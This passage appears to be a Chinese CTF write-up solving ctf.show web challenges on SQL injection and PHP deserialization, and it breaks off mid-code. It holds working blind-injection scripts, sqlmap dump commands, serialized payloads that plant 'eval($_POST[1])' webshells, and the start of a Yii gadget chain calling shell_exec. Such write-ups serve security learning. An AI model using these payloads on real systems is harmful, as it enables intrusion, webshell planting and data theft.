      $ret['msg']='登陆成功';
      array_push($ret['data'], array('flag'=>$flag));
    }
```

就是一个弱比较，如果查询的密码是以字母开头的，字母与数字比较会强行转换为0

所以`password=0`

而username不知道

直接`username=1||1`绕过即可


### web189


题目提示了flag在某个文件中，所以就猜是用`load_file`进行盲注

> **LOAD_FILE(file_name)** 
>
> 读取文件并返回文件内容为字符串。要使用此函数，文件必须位于服务器主机上，必须指定完整路径的文件，而且必须有FILE权限。

而经过简单测试，username=0时，返回的是密码错误，说明username是正确的
可依此来进行盲注

两种写法

```mysql
if(ascii(substr(load_file('/var/www/html/api/index.php'),{i},1))={j},1,0)
if(load_file('/var/www/html/api/index.php')regexp('{i}'),0,1)
```

讲一下写脚本时遇到的两个问题

**第一个**

```mysql
mysql的selct与if一起用时，不能直接
select if(1=1);
而应该
select if(1=1,1,0);
或者
select if(1=1,'yes','no');
这样如果前面的为true则返回第一个字符串，反之返回第二个字符串
所以本题中匹配成功返回0，0是刚刚测试出来正确的用户名
所以就是
if(load_file('/var/www/html/api/index.php')regexp('{i}'),0,1)
```

**第二个**

```python
python中
如果是  if("\\u5bc6\\u7801\\u9519\\u8bef"in r.text):  这种写法
""内出现的特殊字符要转义
返回数据
"\u5bc6\u7801\u9519\u8bef"
应该写成
"\\u5bc6\\u7801\\u9519\\u8bef"
如果是   if r"\u5bc6\u7801\u9519\u8bef" in r.text:   这种写法 则不需要转义
```

所以脚本

```python
import requests

url='http://70943980-c665-46de-9ea9-5808bdbaa41b.challenge.ctf.show/api/index.php'
flag='ctfshow{'
str='0123456789qwertyuiopasdfghjklzxcvbnm}-'
for i in range(0,666):
    for j in str:
        data = {
            "username":"if(load_file('/var/www/html/api/index.php')regexp('{0}'),0,1)".format(flag + j),
            'password':0
        }
        r=requests.post(url=url,data=data)
        if("\\u5bc6\\u7801\\u9519\\u8bef"in r.text):
            flag+=j
            print(flag)
            if j=='}':
                exit()
            break
```


### web190


```php
 //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
```

与上题相比少了对username的waf，没有告诉路径

所以很明显是盲注了，直接上脚本

```python
import requests

url='http://e6810d51-e199-4df0-ab4f-f7bc080c4578.challenge.ctf.show/api/index.php'
database=''
flag='ctfshow{'
str='0123456789qwertyuiopasdfghjklzxcvbnm}-'
payload1="select group_concat(table_name) from information_schema.tables where table_schema=database()" #爆表
payload2="select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'" #爆列名
payload3="select f1ag from ctfshow_fl0g" #爆flag
for i in range(1,46):
    start=32
    end=127
    for j in range(start,end):
        data = {
            "username":f"admin' and ascii(substr((select f1ag from ctfshow_fl0g),{i},1))={j};#",
            'password':'0'
        }
        r=requests.post(url=url,data=data)
        if("\\u5bc6\\u7801\\u9519\\u8bef"in r.text):
            database+=chr(j)
            print(database)
            if j=='}':
                exit()
            break
```


### web191


```php
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }

```

过滤了上题用到的`ascii`改成`ord`即可

```python
import requests

url='http://4c393617-92b9-458f-bc9a-6aa1516fa608.challenge.ctf.show/api/index.php'
database=''
flag='ctfshow{'
str='0123456789qwertyuiopasdfghjklzxcvbnm}-'
payload1="select group_concat(table_name) from information_schema.tables where table_schema=database()" #爆表
payload2="select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'" #爆列名
payload3="select f1ag from ctfshow_fl0g" #爆flag
for i in range(1,46):
    start=32
    end=127
    for j in range(start,end):
        data = {
            "username":f"admin'and ord(substr(({payload3}),{i},1))={j};#",
            'password':0
        }
        r=requests.post(url=url,data=data)
        if("\\u5bc6\\u7801\\u9519\\u8bef"in r.text):
            database+=chr(j)
            print(database)
            if j=='}':
                exit()
            break

```


### web192


```php
 //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii|ord|hex/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }

```

过滤了ord，直接比较

```python
import requests

url='http://3507f19f-50bc-44f7-b64b-93ccb855fe23.challenge.ctf.show/api/index.php'
database=''
flag='ctfshow{'
str='0123456789qwertyuiopasdfghjklzxcvbnm{}-'
payload1="select group_concat(table_name) from information_schema.tables where table_schema=database()" #爆表
payload2="select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'" #爆列名
payload3="select f1ag from ctfshow_fl0g" #爆flag
for i in range(1,46):
    start=32
    end=127
    for j in str:
        data = {
            "username":f"admin'and substr(({payload3}),{i},1)='{j}';#",
            'password':0
        }
        r=requests.post(url=url,data=data)
        if("\\u5bc6\\u7801\\u9519\\u8bef"in r.text):
            database+=j
            print(database)
            if j=='}':
                exit()
            break

```


### web193


```php
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii|ord|hex|substr/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```

多过滤了`substr`，改成`mid`就好了

本题表名改了一下

```python
import requests

url='http://2b00ca14-8ff0-4454-b914-0effc015bf5b.challenge.ctf.show/api/index.php'
database=''
flag='ctfshow{'
str='0123456789qwertyuiopasdfghjklzxcvbnm{}-_'
payload1="select group_concat(table_name) from information_schema.tables where table_schema=database()" #爆表
payload2="select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flxg'" #爆列名
payload3="select f1ag from ctfshow_flxg" #爆flag
for i in range(1,46):
    start=32
    end=127
    for j in str:
        data = {
            "username":f"admin'and mid(({payload3}),{i},1)='{j}';#",
            'password':0
        }
        r=requests.post(url=url,data=data)
        if("\\u5bc6\\u7801\\u9519\\u8bef"in r.text):
            database+=j
            print(database)
            if j=='}':
                exit()
            break

```


### web194


```php
//TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii|ord|hex|substr|char|left|right|substring/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```

上题脚本可用

```python
import requests

url='http://a7bb51f4-7ba3-4f1a-93e9-c29fe96d4cf8.challenge.ctf.show/api/index.php'
database=''
flag='ctfshow{'
str='0123456789qwertyuiopasdfghjklzxcvbnm{}-_,'
payload1="select group_concat(table_name) from information_schema.tables where table_schema=database()" #爆表
payload2="select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flxg'" #爆列名
payload3="select f1ag from ctfshow_flxg" #爆flag
for i in range(1,46):
    start=32
    end=127
    for j in str:
        data = {
            "username":f"admin'and mid(({payload3}),{i},1)='{j}';#",
            'password':0
        }
        r=requests.post(url=url,data=data)
        if("\\u5bc6\\u7801\\u9519\\u8bef"in r.text):
            database+=j
            print(database)
            if j=='}':
                exit()
            break

```


### web195


```php
 //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if(preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|\'|\"|select|union|or|and|\x26|\x7c|file|into/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
```

题目提示了堆叠注入

所以本题只需把密码改一下就可以了

```sql
0;update(ctfshow_user)set`pass`=1;
```

过滤了空格，反引号绕过就行

**表名、字段名、数据库名等可用反引号 ( ` )，也可以不使用反引号 ，但如果它包含特殊字符或保留字，则必须使用，如果不使用就会报错**。


### web196


```php
//TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if(preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|\'|\"|select|union|or|and|\x26|\x7c|file|into/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  if(strlen($username)>16){
    $ret['msg']='用户名不能超过16个字符';
    die(json_encode($ret));
  }

  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
```

虽然限制了16个字符，但本题前端虽然写了过滤`select`，但实际上没有过滤

所以直接虚拟表绕过

```sql
username=520;select(1);
password=1
```


### web197


```php
//TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if('/\*|\#|\-|\x23|\'|\"|union|or|and|\x26|\x7c|file|into|select|update|set//i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }
```

过滤了`update`和`set`

但是可以不用改变表来绕过，构造一个虚拟表就行

```sql
username=1;show tables;
password=ctfshow_user
```

`show tables`的表也在刚刚查询的内容里面，所以当`password`与该表名一样时就可绕过

其他虚拟表绕过的办法没试，后面可以试试


### web198


```php
//TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
if('/\*|\#|\-|\x23|\'|\"|union|or|and|\x26|\x7c|file|into|select|update|set|create|drop/i', $username)){
  $ret['msg']='用户名非法';
  die(json_encode($ret));
}
```

同上


### web199


```php
//TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
if('/\*|\#|\-|\x23|\'|\"|union|or|and|\x26|\x7c|file|into|select|update|set|create|drop|\(/i', $username)){
  $ret['msg']='用户名非法';
  die(json_encode($ret));
}
```

同上


### web200


```php
//TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
if('/\*|\#|\-|\x23|\'|\"|union|or|and|\x26|\x7c|file|into|select|update|set|create|drop|\(|\,/i', $username)){
  $ret['msg']='用户名非法';
  die(json_encode($ret));
}
```

同上


### web201


接下来是`sqlmap`的使用，先抓下包看看怎么传参的


返回

```
["\u4e0d\u4f7f\u7528sqlmap\u662f\u6ca1\u6709\u7075\u9b42\u7684"]
["不使用sqlmap是没有灵魂的"]
```

很明显，此题只能用`sqlmap`

提示要

```
使用--user-agent 指定agent
使用--referer 绕过referer检查
```

验证是否有效

```
sqlmap.py -u http://4d34566a-f81f-40c6-934c-cd2fe4ca80da.challenge.ctf.show/api/?id=1 -referer="ctf.show"
```

查数据库

```
sqlmap.py -u http://4d34566a-f81f-40c6-934c-cd2fe4ca80da.challenge.ctf.show/api/?id=1 -referer="ctf.show" --dbs
```

查表

```
sqlmap.py -u http://4d34566a-f81f-40c6-934c-cd2fe4ca80da.challenge.ctf.show/api/?id=1 -referer="ctf.show" -D ctfshow_web --tables
```

查数据

```
sqlmap.py -u http://4d34566a-f81f-40c6-934c-cd2fe4ca80da.challenge.ctf.show/api/?id=1 -referer="ctf.show" -D ctfshow_web -T ctfshow_user --dump
```


### web202


提示是`POST`传参，但是抓包之后看的是`GET`传参

然后`POST`传了一下试试

```
["\u4e0d\u4f7f\u7528sqlmap\u662f\u6ca1\u6709\u7075\u9b42\u7684"]
["不使用sqlmap是没有灵魂的"]
```

大胆猜测一下，要回显这段数据才能表示查询成功

最后的payload

```www
sqlmap.py -u http://a00fd7b6-1171-41e4-8d64-8a338f01422a.challenge.ctf.show/api/ --data="id=1" --refer="ctf.show" -D ctfshow_web -T ctfshow_user --dump
```


### web203


提示`使用--method 调整sqlmap的请求方式`

目前常见的请求方式:GET POST PUT DELETE

使用插件POST WOMAN传一个PUT请求成功回显

```
["\u4e0d\u4f7f\u7528sqlmap\u662f\u6ca1\u6709\u7075\u9b42\u7684"]
["不使用sqlmap是没有灵魂的"]
```

然后用sqlmap试试

最后的payload

```
sqlmap.py -u http://3acac1ab-1b8f-4a14-9b05-6e1f06351057.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --headers="Content-Type: text/plain" --referer="ctf.show" -D ctfshow_web -T ctfshow_user --dump
```

这里使用PUT请求，但是要记得加上设置`Content-Type`头，否则会变成表单提交(不太懂PUT)


### web204


提示`使用--cookie 提交cookie数据`

在控制台用`document.cookie`查看一下cookie，然后sqlmap加上就行

```
sqlmap.py -u http://65fc3648-9bc2-462f-8156-b37818872701.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --headers="Content-Type: text/plain" --referer="ctf.show" -D ctfshow_web -T ctfshow_user --dump --cookie="PHPSESSID=a810gml01o3gv2c1vvs3umpaon; ctfshow=7a925fa293045407f0f14d4a9fa15428"
```


### web205


提示`api调用需要鉴权`

bp抓包时发现在查询之前有一个


而直接用sqlmap是不能跳转鉴权的

所以需要用到两个特殊的参数

```
--safe-url 设置在测试目标地址前访问的安全链接
--safe-freq 设置两次注入测试前访问安全链接的次数
```

所以我要设一个`--safe-url`然后次数设为一

最终payload

```
sqlmap.py -u http://3acce2f0-9c3a-41cc-9f26-208242763f66.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --referer="ctf.show" --headers="Content-Type:text/plain" --safe-url="http://3acce2f0-9c3a-41cc-9f26-208242763f66.challenge.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web -T ctfshow_flax --dump
```


### web206


提示sql要闭合，sqlmap会自动闭合的

```
sqlmap.py -u http://4a58864b-f239-4ad1-85d9-650f955ab369.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --referer="ctf.show" --headers="Content-Type:text/plain" --safe-url="http://4a58864b-f239-4ad1-85d9-650f955ab369.challenge.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web -T ctfshow_flax --dump 
```


### web207


下面的进入了写tamper时代，鉴于python还未深入学习，先放一段落，开始反序列化的学习吧！


## 反序列化

### web254


```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include('flag.php');

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;

    public function checkVip(){
        return $this->isVip;
    }
    public function login($u,$p){
        if($this->username===$u&&$this->password===$p){
            $this->isVip=true;
        }
        return $this->isVip;
    }
    public function vipOneKeyGetFlag(){
        if($this->isVip){
            global $flag;
            echo "your flag is ".$flag;
        }else{
            echo "no vip, no flag";
        }
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    $user = new ctfShowUser();
    if($user->login($username,$password)){
        if($user->checkVip()){
            $user->vipOneKeyGetFlag();
        }
    }else{
        echo "no vip,no flag";
    }
}
```

看下代码，其实就是以GET传参的username和password和题目中定义的一样就行

```
http://dff03a0a-b00b-4144-8e3b-ee8638169671.challenge.ctf.show/?username=xxxxxx&password=xxxxxx
```


### web255

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include('flag.php');

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;

    public function checkVip(){
        return $this->isVip;
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function vipOneKeyGetFlag(){
        if($this->isVip){
            global $flag;
            echo "your flag is ".$flag;
        }else{
            echo "no vip, no flag";
        }
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    $user = unserialize($_COOKIE['user']);    
    if($user->login($username,$password)){
        if($user->checkVip()){
            $user->vipOneKeyGetFlag();
        }
    }else{
        echo "no vip,no flag";
    }
}
```

看代码，就是序列化一个对象`ctfShowUser`，然后使它的`$isVip`为true，username和password和传入的一样就行

```php
<?php
class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=true;
}
print_r(urlencode(serialize(new ctfShowUser())));
生成的字符串传入cookie:user=O%3A11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A8%3A%22username%22%3Bs%3A1%3A%221%22%3Bs%3A8%3A%22password%22%3Bs%3A1%3A%221%22%3Bs%3A5%3A%22isVip%22%3Bb%3A1%3B%7D

url:http://0a3030e3-fdcf-4bca-a019-e40e9d04c71d.challenge.ctf.show/?username=1&password=1
```


### web256


```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include('flag.php');

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;

    public function checkVip(){
        return $this->isVip;
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function vipOneKeyGetFlag(){
        if($this->isVip){
            global $flag;
            if($this->username!==$this->password){
                    echo "your flag is ".$flag;
              }
        }else{
            echo "no vip, no flag";
        }
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    $user = unserialize($_COOKIE['user']);    
    if($user->login($username,$password)){
        if($user->checkVip()){
            $user->vipOneKeyGetFlag();
        }
    }else{
        echo "no vip,no flag";
    }
}
```

本题相对于上题就多了一个`$this->username!==$this->password`所以把username和password设置的不一样就行了

```php
<?php
class ctfShowUser{
    public $username='aaa';
    public $password='bbb';
    public $isVip=true;
}
print_r(urlencode(serialize(new ctfShowUser())));
O%3A11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A8%3A%22username%22%3Bs%3A3%3A%22aaa%22%3Bs%3A8%3A%22password%22%3Bs%3A3%3A%22bbb%22%3Bs%3A5%3A%22isVip%22%3Bb%3A1%3B%7D
    
url=http://e95114d3-ba53-4c00-840f-09b586f61797.challenge.ctf.show/?username=aaa&password=bbb
```


### web257


```php
<?php
error_reporting(0);
highlight_file(__FILE__);

class ctfShowUser{
    private $username='xxxxxx';
    private $password='xxxxxx';
    private $isVip=false;
    private $class = 'info';

    public function __construct(){
        $this->class=new info();
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function __destruct(){
        $this->class->getInfo();
    }

}

class info{
    private $user='xxxxxx';
    public function getInfo(){
        return $this->user;
    }
}

class backDoor{
    private $code;
    public function getInfo(){
        eval($this->code);
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    $user = unserialize($_COOKIE['user']);
    $user->login($username,$password);
}
```

有一个很显眼的`backDoor(后门)`，而且里面两个函数名字都是一样的，很显然可以利用，改一下类就行

```php
<?php


class ctfShowUser{
    private $username='xxxxxx';
    private $password='xxxxxx';
    private $isVip=true;
    private $class = '';

    public function __construct(){
        $this->class=new backDoor();
    }
}
class backDoor{
    private $code='system("cat flag.php");';
    public function getInfo(){
        eval($this->code);
    }
}

echo urlencode(serialize(new ctfShowUser()));
```

想不到自己竟然因为太久没用`system`而卡了一会...

看到一个另外的解法(大差不差，但是对我的php烂语法有点帮助)

```php
<?php
//error_reporting(0);
class ctfShowUser{
    public $class = 'backDoor';
}


class backDoor{
    public $code="system('cat flag.php');";
    public function getInfo(){
        eval($code);
    }
}

$a = new backDoor();
$b = new ctfShowUser();//不能在里面创建类
$b->class=$a;
echo urlencode(serialize($b));

```


### web258


```php
<?php
error_reporting(0);
highlight_file(__FILE__);

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;
    public $class = 'info';

    public function __construct(){
        $this->class=new info();
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function __destruct(){
        $this->class->getInfo();
    }

}

class info{
    public $user='xxxxxx';
    public function getInfo(){
        return $this->user;
    }
}

class backDoor{
    public $code;
    public function getInfo(){
        eval($this->code);
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    if(!preg_match('/[oc]:\d+:/i', $_COOKIE['user'])){
        $user = unserialize($_COOKIE['user']);
    }
    $user->login($username,$password);
}
```

这个正则

```php
preg_match('/[oc]:\d+:/i', $_COOKIE['user'])
[oc]   是匹配的o或者c   \d匹配的是数字
所以就是匹配 o:数字 或者 c:数字
```

要知道的是，如果序列化中有加号，是能正常反序列化的
经过测试，无论在任何地方加`+`都是能正常反序列化的

```php
<?php

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;
    public $class = 'info';

    public function __construct(){
        $this->class=new BackDoor();
    }

}

class backDoor{
    public $code='eval($_POST[1]);';
    public function getInfo(){
        eval($this->code);
    }
}

$a = new ctfShowUser();
$a = serialize($a);
$a= str_replace('O:', 'O:+',$a);//绕过preg_match
echo urlencode($a);
```

这样就可随意rce了


### web259


先放一下

[WP](file://D:/Typora/note/CTF/web/web259--writeUp.pdf)


### web260


```php
<?php

error_reporting(0);
highlight_file(__FILE__);
include('flag.php');

if(preg_match('/ctfshow_i_love_36D/',serialize($_GET['ctfshow']))){
    echo $flag;
}
```

`ctfshow`序列化后的字段中含有`ctfshow_i_love_36D`即可得到flag

直接传`?ctfshow=ctfshow_i_love_36D`即可


### web261


```php
<?php

highlight_file(__FILE__);

class ctfshowvip{
    public $username;
    public $password;
    public $code;

    public function __construct($u,$p){
        $this->username=$u;
        $this->password=$p;
    }
    public function __wakeup(){
        if($this->username!='' || $this->password!=''){
            die('error');
        }
    }
    public function __invoke(){
        eval($this->code);
    }

    public function __sleep(){
        $this->username='';
        $this->password='';
    }
    public function __unserialize($data){
        $this->username=$data['username'];
        $this->password=$data['password'];
        $this->code = $this->username.$this->password;
    }
    public function __destruct(){
        if($this->code==0x36d){
            file_put_contents($this->username, $this->password);
        }
    }
}

unserialize($_GET['vip']);
```

`__unserialize也是php对象里的内置函数，其作用类似于__wakeup，有了__unserialize就不调用__wakeup`

而找不到任何可以调用`__invoke`的地方，所以就考虑写入文件
在`__unserialize`中，前面两个就是正常赋值(不知道$data是哪来的)，code就是两个的拼接
而在`__destruct`中，code要弱等于877(0x36d)，所以只要文件名为`877.php`，这个等式就成立

```php
<?php
class ctfshowvip{
    public $username;
    public $password;
    public $code=123;

    public function __construct($u,$p){
        $this->username=$u;
        $this->password=$p;
    }
}
$a=new ctfshowvip('877.php','<?php eval($_POST[1]);?>');
echo serialize($a);
```


### web262


> **字符串逃逸**
>
> 用例子来讲解这个漏洞
> 首先这个漏洞必须对序列化后的字符串进行了处理，导致里面某个值的字符串的实际长度与前面标注的不一样才可利用。
> 具体原因下面会知道
>
> ```php
> <?php
> class user{
>     public $username;
>     public $password;
>     public $code=123;
>     public function __construct($u,$p){
>         $this->username=$u;
>         $this->password=$p;
>     }
> }
> $a=new user('admin','12345');
> echo serialize($a);
> $ua=str_replace('admin','hacker',serialize($a));
> echo $ua;
> 
> // O:4:"user":3:{s:8:"username";s:5:"admin";s:8:"password";s:5:"12345";s:4:"code";i:123;}
> // O:4:"user":3:{s:8:"username";s:5:"hacker";s:8:"password";s:5:"12345";s:4:"code";i:123;}
> ```
>
>  可以看到，上面的`hacker`六个字符，但前面标注的是五个，此时反序列化是以前面标注的为准，所以现在是无法反序列化的
> 但如果我构造一下(假设把code变成000是我的目标,username随意)
> `O:4:"user":3:{s:8:"username";s:5:"admin";s:8:"password";s:5:"12345";s:4:"code";i:000;}`
>
> ```php
> <?php
> 
> class user{
>     public $username;
>     public $password;
>     public $code=123;
>     public function __construct($u,$p){
>         $this->username=$u;
>         $this->password=$p;
>     }
> }
> 
> $a=new user('adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin";s:8:"password";s:5:"12345";s:4:"code";i:000;}','12345');
> 
> $ua=str_replace('admin','hacker',serialize($a));
> var_dump(unserialize($ua));
> 
> //object(user)#2 (3) { ["username"]=> string(282) "hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker" ["password"]=> string(5) "12345" ["code"]=> int(0) }
> ```
>
> 可以看到，`123`变成了`0`，因为反序列化时，只会看该字符标注的长度，后面的就当成下一部分，所以正常反序列化完后，其实最后还剩一段字符是没看的，直接省略了`";s:8:"password";s:5:"12345";s:4:"code";i:000;}','12345');`，其实与构造sql注入同理，也是通过提前闭合来绕过了反序列化。

本题

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-03 02:37:19
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-03 16:05:38
# @message.php
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


error_reporting(0);
class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}

$f = $_GET['f'];
$m = $_GET['m'];
$t = $_GET['t'];

if(isset($f) && isset($m) && isset($t)){
    $msg = new message($f,$m,$t);
    $umsg = str_replace('fuck', 'loveU', serialize($msg));
    setcookie('msg',base64_encode($umsg));
    echo 'Your message has been sent';
}

highlight_file(__FILE__);
```

已经有字符串逃逸的味道了，但还是不知道要改上面
在前面的注释中有一个`message.php`，访问后又看见一段源码

```php
<?php
highlight_file(__FILE__);
include('flag.php');

class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}

if(isset($_COOKIE['msg'])){
    $msg = unserialize(base64_decode($_COOKIE['msg']));
    if($msg->token=='admin'){
        echo $flag;
    }
}
```

很明显就是要以admin来访问`message.php`
构造出

```php
O:7:"message":4:{s:4:"from";s:2:"ca";s:3:"msg";s:1:"b";s:2:"to";s:135:"fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck";s:5:"token";s:5:"admin";}";s:5:"token";s:5:"admin";}
```

经测试，反序列化的结果

```php
object(message)#1 (4) {
  ["from"]=>
  string(2) "ca"
  ["msg"]=>
  string(1) "b"
  ["to"]=>
  string(135) "loveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveU"
  ["token"]=>
  string(5) "admin"
}
```

然后base64加密一下在message传cookie就可以了


### web263


**session反序列化**


### web264


index.php

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-03 02:37:19
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-03 16:05:38
# @message.php
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


error_reporting(0);
session_start();

class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}

$f = $_GET['f'];
$m = $_GET['m'];
$t = $_GET['t'];

if(isset($f) && isset($m) && isset($t)){
    $msg = new message($f,$m,$t);
    $umsg = str_replace('fuck', 'loveU', serialize($msg));
    $_SESSION['msg']=base64_encode($umsg);
    echo 'Your message has been sent';
}

highlight_file(__FILE__);
```

message.php

```php
<?php
session_start();
highlight_file(__FILE__);
include('flag.php');

class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}

if(isset($_COOKIE['msg'])){
    $msg = unserialize(base64_decode($_SESSION['msg']));
    if($msg->token=='admin'){
        echo $flag;
    }
}
```

与262几乎一样，不同的就是原本是放在cookie，现在是放在session，在index.php GET传一下就行了

```tex
index.php
get:?f=&m=&t=fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck";s:5:"token";s:5:"admin";}
message.php
Cookie 加上 msg= xxx
```


### web265


利用到地址的思想

> **按地址传参**
>
> ```php
> $a='123';
> $b=&$a;
> $b=1;
> echo $a;
> 
> ```
>
> 这一段，无论a和b无论谁改变，都是以后面改变的那个值为主

payload

```php
<?php
class ctfshowAdmin{
    public $token;
    public $password;

    public function __construct(){
        $this->token='a';
        $this->password = &$this->token;
    }
}
echo serialize(new ctfshowAdmin());

//O:12:"ctfshowAdmin":2:{s:5:"token";s:1:"a";s:8:"password";R:2;}
```


### web266


```php
<?php
highlight_file(__FILE__);

include('flag.php');
$cs = file_get_contents('php://input');

class ctfshow{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public function __construct($u,$p){
        $this->username=$u;
        $this->password=$p;
    }
    public function login(){
        return $this->username===$this->password;
    }
    public function __toString(){
        return $this->username;
    }
    public function __destruct(){
        global $flag;
        echo $flag;
    }
}
$ctfshowo=@unserialize($cs);
if(preg_match('/ctfshow/', $cs)){
    throw new Exception("Error $ctfshowo",1);
}
```

只要能触发`__destruct`就能得到flag，所以不能让他发出异常，异常就触发不了
反序列化是对大小写不敏感的，而这个正则没有`i`，是对大小写敏感的
所以直接将小写的c改成大写的C就好了
本来想着在里面插`+`，但是本地试通过不了，这题环境试也不行，甚至`O:+7:"Ctfshow":0:{}`都不行了，不知道为什么...

> **$cs = file_get_contents('php://input');**
>
> 本题有一个这句话，这句话就是把POST传入的数据直接当作字符串赋值了(记得在哪写过这？难道只是看过)
> 用这种方法可以绕过
>
> ```php
> $cs = file_get_contents($a,'r');
> if($cs='xxxxx'){
>     xxx
> }
> ```
>
> 值得一提的是，这种不是等式的POST提交方式，不能直接用**chrome的hackbar**，用**postwoman**就好啦
> 


### web267


记得看看wp视频
yii反序列化漏洞

```php
<?php
namespace yii\rest{
    class CreateAction{
        public $checkAccess;
        public $id;

        public function __construct(){
            $this->checkAccess = 'shell_exec';
            $this->id = "echo  '<?php eval(\$_POST[1]);?>' > /var/www/html/basic/web/3.php";
        }
    }
}

namespace Faker{
    use yii\rest\CreateAction;

    class Generator{
        protected $formatters;

        public function __construct(){
            $this->formatters['close'] = [new CreateAction(), 'run'];
        }
    }
}

namespace yii\db{
    use Faker\Generator;

